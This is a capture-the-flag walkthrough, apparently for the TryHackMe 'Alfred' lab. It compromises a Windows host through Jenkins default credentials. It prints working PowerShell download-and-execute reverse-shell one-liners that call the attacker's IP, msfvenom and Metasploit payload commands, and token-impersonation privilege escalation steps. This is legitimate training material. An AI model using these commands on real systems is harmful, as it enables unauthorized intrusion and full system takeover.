

# Alfred

At first, we need to run the nmap to scan the running services on target server:

```bash
sudo nmap -sS 10.10.135.85
```

Above command gave the error: **Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn.**  Let's modify the command:

```bash
sudo nmap -sS -Pn 10.10.135.85
```

It gave us the result:
```bash
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Now, went to http://10.10.135.85:8080/ that gave me a page that requires username and password for Jenkin authentication.

### **Task 1**

##### Question: How many ports are open? (TCP only)
Answer: We already know it's answer is: **3**.

##### Question: What is the username and password for the login panel? (in the format username:password)
Answer: I randomly tried to guess the credentials and guess what, I succeed. 

The credentials are: **admin:admin**.

Now, we need to find a way to run commands on the underlying system (target server). I made a google search that how to run our command on the system using jenkin. I found out that if I make a new project then it's possible. Simple steps to do that are following:

1. Select the new item from the dashboard as shown in the picture:


2. Enter the name of project and select 1st option as following:



3. Now, in the portion of buid select `Add build` and then from the drop down list select `execute windows batch command`. Now, write the following command in the command box(given  by tryhackme):

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.25.176:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.25.176 -Port 4443
```

4. Click the save button at the last of the page. 

Before going to the 5th step, you must have two things configured at your attacking machine:
> Download powershell script and host it through python server
> start netcat server on listenting mode.

**Powershell Script**
Download the script using the following link(given by THM): 
[Reverse Shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Run the python server in the same directory where the powershell script is downloaded using the command:
```bash
python -m http.server 4444
```

**Running netcat server**
Run the following command to run the netcat server:

```bash
nc -lvnp 4443
```

5. Now, go to the project `new_project` that we made on jenkin and on the left panel, click on `Build Now` as shown in the following:


##### Hoorah! We got the initial access of shell of target server.


Navigate to the directory `C:\users\bruce\Desktop` and run following command to get the user flag:

```cmd
type user.txt
```


### **Task 2**

**Setting Metasploit on listening mode**
Run the following commands in order to set the metasploit on listening mode to get the meterpreter shell, so that we can leverage the modules of windows authentication tokens.

```bash
use exploit/multi/handler 
```

```bash
set PAYLOAD windows/meterpreter/reverse_tcp 
```

```bash
set LHOST attacker_machine_ip set LPORT attacker_machine_port
```

```bash
run
```

Now, Metasploit is on listening mode. We need to make a reverse shell payload, transfer it to target machine. When this expoits run, it will make reverse a connection on your Metasploit.

Firstly create the payload using following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=attacker_ip LPORT=attacker_port -f exe -o shell-name.exe
```

Now, run the python server where this payload is created:
```bash
python -m http.server 4444
```

Now, run the following command in the shell of target machine that you got during initial access task:
```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://attacker_ip:python_server_port/shell-name.exe','shell-name.exe')"
```

Run the following command in target machine's shell to start the payload:
```cmd
Start-Process "shell-name.exe"
```

##### Yeah! We got the meterpreter shell.

**Task 3**

Privelege Escalation is our current task. So we need to identify the priveleges that our current user have. Run the following command in our shell(initial shell, not meterpreter):

```cmd
whoami /priv
```

Note the Enabled privleges that includes the following:
**SeDebugPrivilege**
**SeChangeNotifyPrivilege**
**SeImpersonatePrivilege**
**SeCreateGlobalPrivilege**

Now, in order to use the Metasploit module for windows authentication tokens, we need to load a module:
```bash
load incognito
```

```bash
list_tokens -g
```


Now, the most attactive token for attackers here is `BUILTIN\Administrators`. Understand what's happening. You are local user but you can impersonate tokens of another user, how do we know that: because we have the privelege **SeImpersonatePrivilege**. Run the following command to impersonate it:
```bash
impersonate_token "BUILTIN\Administrators"
```
##### Question: Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command?

Answer: Run the getuid command in meterpreter and you will get the answer: **NT AUTHORITY\SYSTEM**.

Now, you are local user but have token of administrator. In other words, you can authenticate yourself as administrator. But currently your primary token is of local user. In order to do the tasks that require higher priveleges then we need to migrate the process that have higher permissions. And token for authentication we already have. 

Migrate to any process that is running with higher priveleges. Run `ps` command to list the processes. Note that service.exe is one of our required processes. Run the command in meterpreter shell:

```bash
migrate 668
```
In above command 668 is the PID of service.exe that we can find throug `ps` command we ran previously.

Now navigate to the directory `C:\Windows\System32\config` and read the `root.txt` file using following command:
```bash
cat root.txt
```
